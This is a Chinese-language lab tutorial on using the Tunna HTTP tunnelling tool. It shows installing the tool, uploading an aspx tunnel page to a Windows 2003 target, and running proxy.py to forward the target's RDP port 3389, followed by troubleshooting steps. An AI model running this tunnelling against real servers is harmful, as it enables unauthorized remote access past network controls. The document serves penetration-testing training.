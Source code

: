 

**Tunna简介：**

Tunna1.1 是 secforce 在2014年11月出品的一款基于HTTP隧道工具。其中v1.1中支持了SOCKS4a。

Tunna演示稿：  
https://drive.google.com/open?id=1PpB8_ks93isCaQMEUFf_cNvbDsBcsWzE

Github：  
https://github.com/SECFORCE/Tunna

**攻击机：**   
192.168.1.5 Debian  
192.168.1.4 Windows 7

**靶机：**   
192.168.1.119 Windows 2003

**安装：**
```bash
root@John:~# git clone https://github.com/SECFORCE/Tunna.git
Cloning into 'Tunna'...
remote: Enumerating objects: 6, done.
remote: Counting objects: 100% (6/6), done.
remote: Compressing objects: 100% (6/6), done.
remote: Total 156 (delta 0), reused 2 (delta 0), pack‐reused 150
Receiving objects: 100% (156/156), 8.93 MiB | 25.00 KiB/s, done.
Resolving deltas: 100% (84/84), done.
```
![](/img/dac94b993935a569d6b5cec53e91eb54.jpg)

**靶机执行：**

以aspx为demo。  

![](/img/45105406fce5e573635d20030393a928.jpg)

**攻击机执行：**  

```python
python proxy.py ‐u http://192.168.1.119/conn.aspx ‐l 1234 ‐r 3389 ‐s ‐ v
```
![](/img/270e3220479652ae6eb658f40156cf97.jpg)

![](/img/5e8e8a0ea358fdf98fc37bbb31b5994e.jpg)


### 附录：

**解决：**General Exception: [Errno 104] Connection reset by peer
```bash
[+] Spawning keep‐alive thread
[‐] Keep‐alive thread not required
[+] Checking for proxy: False
```

连接后，出现
```bash
General Exception: [Errno 104] Connection reset by peer
```

等待出现：**无法验证此远程计算机的身份，是否仍要连接？**

再次运行，在点击是(Y)
```bash
python proxy.py ‐u http://192.168.1.119/conn.aspx ‐l 1234 ‐r 3389 ‐s ‐ v
```
![](/img/086a4ba0d1640a1d5b5efb747490329d.jpg)

![](/img/1a7fb8afe7862e95f22ce331e1ea6480.jpg)

![](/img/89343acc07c18c27399943cd200091b6.jpg)


**如果：没有出现“无法验证此远程计算机的身份，是否仍要连接？”**

注册表键值：
HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Servers
删除对应IP键值即可。

非常遗憾的是，Tunna对PHP的支持并不是太友好。

>   Micropoor
